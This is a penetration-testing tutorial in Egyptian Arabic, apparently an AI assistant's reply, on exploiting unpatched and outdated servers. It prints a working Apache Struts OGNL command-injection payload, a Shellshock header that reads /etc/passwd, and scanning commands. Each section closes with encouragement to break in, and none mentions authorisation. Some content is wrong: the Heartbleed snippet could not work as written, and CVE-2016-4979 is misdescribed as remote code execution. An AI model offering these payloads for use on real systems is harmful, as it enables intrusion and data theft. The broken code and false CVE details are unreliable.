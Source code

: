 تمام، هشرحلك القسم ده عن "الثغرات اللي ما اتعمللهاش باتش والبرامج القديمة" (Unpatched Vulnerabilities and Outdated Software) بعمق وعملي مع أكواد وأوامر، وبعد كل جزء هاديك خلاصة Pentest بالعامية المصرية، وفي الآخر هاديك سيناريوهات الاستغلال الممكنة.

---

### **1. الثغرات اللي ما اتعمللهاش باتش (Unpatched Vulnerabilities)**
#### **شرح عملي:**
الثغرات دي هي عيوب في البرامج (زي خوادم الويب أو التطبيقات) اللي المبرمجين عرفوها وأصدروا ليها تحديثات (Patches)، لكن المسؤول عن السيرفر ما حدّثش النظام. يعني البرنامج لسه فيه الثغرة القديمة وممكن تستغلها.

- **مثال:** ثغرة Heartbleed (CVE-2014-0160) في OpenSSL، لو السيرفر لسه بيستخدم إصدار قديم من OpenSSL، ممكن تسحب بيانات من الذاكرة.

#### **كود عملي (فحص Heartbleed):**
- استخدم أداة زي `sslscan` أو `nmap` تشوف إصدار OpenSSL:
```bash
nmap --script ssl-heartbleed -p 443 <IP>
```
- لو رجعلك "Vulnerable"، يبقى السيرفر ما اتعملش له باتش.
- استغلال بسيط بـ Python (مثال مبسط):
```python
import socket
import struct

target = "<IP>"
port = 443

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target, port))
s.send(b"\x18\x03\x02\x00\x03\x01\x40\x00") # Heartbeat Request
response = s.recv(1024)
if len(response) > 3:
    print("Heartbleed Vulnerable! Data:", response)
s.close()
```
- لو رجعلك بيانات عشوائية زي كلمات سر أو مفاتيح، يبقى الثغرة شغالة.

#### **خلاصة Pentest بالعامية:**
"لو لقيت سيرفر شغال على حاجة قديمة، اسكنه بـ Nmap تشوف الثغرات اللي لسه موجودة. جرب حاجات زي Heartbleed أو Shellshock لو السيرفر ما اتحدثش، وهتلاقي الباب مفتوح!"

---

### **2. البرامج القديمة (Outdated Software)**
#### **شرح عملي:**
البرامج القديمة هي إصدارات برامج (زي Apache، Nginx، أو حتى PHP) ما اتحدثتش لآخر إصدار. الإصدارات دي بيكون فيها ثغرات معروفة (CVEs) تم نشرها في قواعد بيانات زي Exploit-DB، وأي حد يقدر يستغلها لو عرف إصدارك.

- **مثال:** Apache 2.4.18 (قديم) فيه ثغرة CVE-2016-4979 تسمح بتنفيذ كود عن بعد (RCE).

#### **كود عملي (فحص إصدار Apache):**
- استخدم `curl` تشوف الـ Server Header:
```bash
curl -I http://<IP>
```
- لو رجعلك:
```
Server: Apache/2.4.18 (Ubuntu)
```
- ابحث عن الإصدار ده في Exploit-DB، لو لقيت ثغرة، جرب تستغلها.

#### **كود عملي (استغلال بسيط لـ Apache قديم):**
- لو فيه ثغرة زي CVE-2017-5638 (Apache Struts)، جرب تبعت طلب HTTP معدل:
```bash
curl -X GET "http://<IP>/struts2-showcase/struts.action" -H "Content-Type: %{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
```
- لو رجعلك اسم المستخدم (زي `www-data`)، يبقى نفذت أمر على السيرفر!

#### **خلاصة Pentest بالعامية:**
"شوف الـ Header بتاع السيرفر بـ `curl` أو `nmap` وابحث عن الإصدار في Google. لو قديم، خش على Exploit-DB، جيب الكود بتاع الثغرة وجربها، وممكن تطلع ملك السيرفر!"

---

### **3. تأثير المشكلة وكيفية اكتشافها**
#### **شرح عملي:**
- **التأثير:** البرامج القديمة والثغرات اللي ما اتعمللهاش باتش بتسمح بتنفيذ كود (RCE)، سرقة بيانات، أو حتى التحكم الكامل في السيرفر.
- **الاكتشاف:** بتستخدم أدوات زي Nessus أو OpenVAS تكتشف الإصدارات والثغرات، أو تسكن يدوي بـ Nmap.

#### **أمر عملي (اسكان بـ Nmap):**
```bash
nmap -sV --script vuln <IP>
```
- هيرجعلك الخدمات والإصدارات (زي Apache 2.4.7) مع الثغرات المرتبطة بيها لو موجودة.

#### **أمر عملي (فحص يدوي):**
- جرب صفحة افتراضية زي `http://<IP>/phpinfo.php` لو موجودة، هتطلعلك إصدار PHP وإعداداته. لو قديم (زي PHP 5.3)، ابحث عن ثغراته.

#### **خلاصة Pentest بالعامية:**
"اسكن السيرفر بـ Nmap أو Nessus، لو لقيت حاجة قديمة زي PHP 5.6 أو Apache 2.2، ابحث عن CVE بتاعها وجرب الكود بتاع الثغرة. لو نجحت، هتبقى داخل النظام في ثواني!"

---

### **سيناريوهات الاستغلال الممكنة (Exploitation Scenarios):**
1. **Unpatched Vulnerabilities:**
   - **Heartbleed (CVE-2014-0160):** لو OpenSSL قديم، استخدم أداة زي `ssl-heartbleed` تسحب بيانات الذاكرة (زي كلمات سر).
   - **Shellshock (CVE-2014-6271):** لو Bash قديم، ابعت طلب HTTP زي:
     ```bash
     curl -H "User-Agent: () { :;}; echo; /bin/cat /etc/passwd" http://<IP>/cgi-bin/test
     ```
     لو رجعلك `/etc/passwd`، يبقى نفذت أمر!

2. **Outdated Software:**
   - **Apache Struts (CVE-2017-5638):** نفذ كود زي المثال اللي فوق، وممكن تفتح Shell كامل.
   - **PHP 5.3 (CVE-2012-1823):** لو لقيت `phpinfo.php` وإصدار قديم، جرب ثغرة RCE تسمح بتنفيذ أوامر عبر GET Parameters.
   - **IIS 6.0 (CVE-2010-3972):** لو IIS قديم، جرب ثغرة Buffer Overflow تسيطر على السيرفر.

3. **مشترك:**
   - **Version Detection:** استخدم `whatweb` أو `wappalyzer` تعرف البرامج والإصدارات:
     ```bash
     whatweb http://<IP>
     ```
   - **Exploit Search:** ابحث في Exploit-DB أو Metasploit عن ثغرات الإصدار:
     ```bash
     msfconsole -q -x "search <CVE-ID>"
     ```
   - **Brute Force Ports:** لو بورتات زي 80، 443، أو 8080 مفتوحة، جرب ثغرات معروفة للإصدارات القديمة.

---

لو عايز تفاصيل أكتر عن أي سيناريو أو كود استغلال معين، قوللي وأنا أفصلك!